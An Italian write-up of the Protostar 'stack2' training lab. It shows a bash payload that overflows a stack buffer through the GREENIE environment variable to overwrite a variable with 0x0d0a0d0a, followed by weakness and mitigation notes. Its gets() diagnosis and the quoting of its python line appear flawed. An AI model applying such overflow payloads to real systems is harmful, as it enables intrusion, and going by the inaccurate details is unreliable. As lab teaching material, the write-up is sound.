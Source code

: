 # Protostar_stack 2 - Buffer overflow

## Obiettivo della sfida
Impostare il valore di _modified_ a **0x0d0a0d0a**
a tempo di esecuzione

## Raccolta informazioni
Il programma _stack2_ accetta input locali tramite una variabile d'ambiente **GREENIE**, essa non esiste quindi va creata. La stringa 0x0d0a0d0a corrisponde a "\r\n\r\n"

## Strategia d'attacco
Creiamo la variabile d'ambiente **GREENIE**, la riempiamo inizialmente con 64 'a' e alla fine aggiungiamo la stringa 0x0a0d0a0d (ricordiamoci che l'architettura è little endian) 

### Istruzioni da eseguire
```bash
> cd /opt/protostar/bin
> GREENIE='python -c 'print "a" * 64 + "\x0a\x0d\x0a\x0d"''
> echo $GREENIE
# verifichiamo che la stringa sia corretta
> ./stack2
# sfida vinta
```

## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`